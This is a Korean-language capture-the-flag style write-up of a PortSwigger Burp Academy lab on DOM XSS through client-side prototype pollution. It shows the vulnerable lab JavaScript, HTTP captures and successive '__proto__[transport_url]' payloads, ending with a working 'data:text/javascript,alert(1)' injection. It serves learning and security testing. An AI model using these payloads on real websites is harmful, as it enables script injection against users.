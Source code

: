 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - DOM XSS via client-side prototype pollution"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Prototype Pollution]
toc: true
---
```


# 개요
- 프로토타입 폴루션(Prototype Pollution, 프로토타입 오염) 취약점에 대한 문제이다. 
- 문제 주소: https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution
- 프로토타입 폴루션 설명 주소: https://portswigger.net/web-security/prototype-pollutionwhat-is-prototype-pollution
- 난이도: PRACTITIONER (중간)


# 문제 분석

```
This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global Object.prototype.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.
```

- 프로토타입 폴루션이 가능한 곳을 찾는다. 
- 페이로드를 만들어서 자바스크립트 alert 함수가 실행되도록 만든다. 
- 브라우저를 통해서 풀어도되고  `Dom Invader` 를 사용하면 더 쉬울 수도 있다. 




# 풀이
## 가능한 곳 찾기

![상품 검색](/images/burp-academy-prototype-pollution-1-2.png)

- 검색어를 입력하고 "Search" 버튼을 클릭하면 GET 요청이 발생하고 URL로 파라메터가 전달된다. 

```
GET /?search=aaaa HTTP/1.1
Host: 0a5300b3032c5f25c2643a44000000f1.web-security-academy.net
Cookie: session=BRR4p1oZFSX1e1MEJ8r7OkjZb4KVjCFB
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close

```

그리고 다음과 같이 평범해보이는 200 응답이 회신된다. 
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 3209

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <title>DOM XSS via client-side prototype pollution</title>
    </head>
    <body>
(이하생략)
```

그리고 이 페이지를 크롬 디버거로 살펴보면 응답을 받으면 `searchLogger.js` 파일의 다음 자바스크립트가 실행되도록 되어 있다. 페이지의 `load` 이벤트에 반응하도록 되어 있어 페이지 로드가 완료되면 `searchLogger` 함수가 이어서 실행된다. 코드를 조금 분석해본다. 

- `searchLogger` 함수에서는 `deparam.js` 에 정의되어 있는 deparam 오브젝트를 생성하고 `config` 라는 변수에 저장해둔다. 
- `config` 변수에 `transport_url` 라는 속성(property)이 있다면 동적으로 script 태그를 만들고 이 태그의 `src` 속성을 `transport_url` 의 값으로 설정한다. 
- 아마도 `transport_url` 을 XSS가 가능한 페이로드로 지정하면 문제가 풀리지 않을까 한다. 

```javascript 
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```
그리고 `deparam.js` 의 코드는 대략 다음과 같다. 실제로 프로토타입 폴루션 취약점이 있는 부분이 코드 같다. URL에 지정된 파라메터의 값을 자바스크립트의 오브젝트에 무조건적으로 설정해주는 부분같다. (`__proto__` 와 같은 위험한 key가 사용되고 있는지를 체크해주는 부분이 없다.  )

![deparam.js](/images/burp-academy-prototype-pollution-1-1.png)


## 1차 시도
[XXS 페이로드 리스트](https://github.com/payloadbox/xss-payload-list){:target="_blank"} 를 보면, `<script src="javascript:alert(1)">` 페이로드가 있다. 이 것을 사용해보자. 


`?search=eeess&__proto__[transport_url]=javascript:alert(1)` 페이로드를 지정하면 script.src 의 값이 alert(1) 테스트해보았다. 

결과는 실패. alert 창이 나타나지 않았다. 흠...

크롬 디버거로 브레이크포인트를 찍어서 값을 확인해본다. params 오브젝트의 프로토타입의 속성 transport_url에 값이 지정된 것을 확인했다. 이 것으로 일단 프로토타입 폴루션자체를 성공한 것을 알 수 있다. __proto__ 키를 이용해서 오브젝트의 특정 키에 값을 주입했다. 

![프로톹타입 폴루션 확인](/images/burp-academy-prototype-pollution-1-3.png)

그런데 최종결과를 보면 다음과 같은 에러를 확인할 수 있었다. 

![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-4.png)

## 2차 시도 
페이로드에서 `javscript` 를 없애고 다음과 같이 만들었다. `?search=eeess&__proto__[transport_url]=alert(1)` 실행해보니 이번에는 404 응답 에러가 발생했다. 

그리고 이 떄 Burp Proxy 이력을 보니 다음과 같은 통신이 발생한 것을 확인했다. `<script src="alert(1)">` 이 삽입되니, `GET /alert(1)` 요청이 실행된 것이다. src에 바로 alert 코드를 쓰는 것은 답이 아닌 것 같다. 다른 페이로드를 찾아본다. 

```
GET /alert(1) HTTP/1.1
Host: 0a1800e104c74374c2bf71be00a4002b.web-security-academy.net
Cookie: session=9YMbSxCjJHulZ7ZPfUBnGvoiWivMSkpj
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a1800e104c74374c2bf71be00a4002b.web-security-academy.net/?search=eeess&__proto__[transport_url]=alert(1)
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close
```

```
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 11

"Not Found"
```

## 3차 시도 
[XXS 페이로드 리스트](https://github.com/payloadbox/xss-payload-list){:target="_blank"} 에서 `<script src="data:text/javascript,alert(1)"></script>` 페이로드를 발견했다. 왠지 이 것을 쓰면 HTTP 통신이 발생하지 않고 script가 실행될 것 같은 예감이 든다. 테스트해본다. 

삽입된 페이로드를 브레이크 포인트로 확인해본다. `data:text/javascript,alert(1)` 이 삽입된 것을 확인했다. 브레이크 포인트를 중지하고 계속 진행시킨다. 

![삽입된 페이로드 확인](/images/burp-academy-prototype-pollution-1-5.png)

자바스크립트 실행에 성공했다! 
![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-6.png)

OK버튼을 누르면 축하한다는 메세지가 나온다. 
![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-7.png)